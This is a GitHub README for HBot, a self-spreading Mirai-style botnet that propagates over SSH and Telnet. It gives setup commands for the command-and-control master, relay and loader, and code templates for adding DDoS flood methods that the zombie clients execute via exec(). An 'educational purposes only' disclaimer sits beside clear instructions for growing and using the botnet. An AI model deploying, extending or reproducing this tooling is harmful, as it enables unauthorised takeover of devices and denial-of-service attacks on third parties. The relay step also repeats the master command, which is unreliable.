 <h1 align="center">HBot</h1>

<p align='center'>
    <b>Self spreading Botnet based on Mirai C&C Arch, spreading through SSH and Telnet protocol.<br>Modern script fullly written in python3.</b><br>
    <br>
    <img src='https://media.discordapp.net/attachments/882441218183807067/883772504760533022/unknown.png'>
</p>

----

<br><br>

> # Warning.

* ***This project was made for educational purposes only! I take no responsibility for anything you do with this program.***
* ***If you have any suggestions, problems, open a problem (if it is an error, you must be sure to look if you can solve it with [Google](https://giybf.com)!)***

<br>

> # Requirements.

* A **Brain**, *yes skiddie, you need to use your brain, but d'ont worry because [Google](https://giybf.com) is your best friend !*
* A [MongoDB](https://mongodb.com) account, you must create an **cluster** with **database**, show [tutorial](https://docs.atlas.mongodb.com/getting-started/).
* A [Ngrok](https://ngrok.com) account, (save your **api-key**)
* __3__ Open port. Default: **8080**, **1337**, **667**
* VPS with __Debian__ based distribution.
* Time..

<br>

> # How to setup.

* *Change the permissions of the scripts with the chmod command.*
```sh
chmod +x ./script/*.sh
```

* *Run installation script.*
```sh
./Install.sh
```

* *Start C&C Master server.*
```sh
./RunMaster.sh
```

* *Start Relay server.*
* **Note**: If you have more than one VPS, you can run relay on other server.
```sh
./RunMaster.sh
```

* *When you have enough new bots, you can expand your network by starting the loader.*
```sh
./Loader.sh
```

<br>

> # Custom payload.

***If you whant to share your methods, just create pull requests <3***

1. Create your method with the template (*#1*)
2. You need to add your method in class `Zombie` (**cnc.py** / *#2*)
3. If you whant to add module (no pypi) you need to follow *#3* in **zombie.py**


- #1:
```py
import socket, threading, time

def method_name(ip: str, port: str, timeout: str):
    def flood(ip: str, port: int, timeout: int):
        start_time = int(time.time())

        while int(time.time()) - start_time < timeout:
            # write method code here
            # Exemple: https://github.com/Its-Vichy/HBot/blob/main/src/payload/http_flood.py

    for _ in range(int(thread)):
        threading.Thread(target= flood, args=(ip, int(port), int(timeout))).start()

method_name('!ip!', '!port!', '!time!')
```

- #2:
```py
def ddos_payload(self, ip: str, port: str, timeout: str, type: str):
    if type == 'http':
        payload = self.parse_method('./payload/http_flood.py', ip, port, timeout)
    
    if type == 'your method name without space lmao':
        payload = self.parse_method('./payload/your_method_file.py', ip, port, timeout)
        
    self.send(f'run|{payload}')
```
 
 - #3
 ```py
 # Just look for this line
 # add: 'module_name': module_name
 # Ex: 'random': random
 threading.Thread(target= exec, args=(payload, {'threading': threading, 'socket': socket, 'time': time, 'module_name': module_name})).start()
 ```
 
<br>

> # How is working.

* **Loader**: soon..
* **Relay**: soon..
* **C&C**: soon..

<br>

> # Support me.

* ⚠️ If this repository was empty, its because the project stay in **developpement**.
* Thanks for looking at this repository, if you like to press the ⭐ button!
* Made with 💖 by [Vichy](https://github.com/Its-Vichy).
* RCΛ Love u.

<p align="center"> 
    <b>Informations</b><br>
    <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Its-Vichy/HBot?style=social">
    <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/Its-Vichy/HBot">
    <img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/Its-Vichy/HBot">
    <img alt="GitHub" src="https://img.shields.io/github/license/Its-Vichy/HBot">
    <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Its-Vichy/HBot?style=social">
</p>
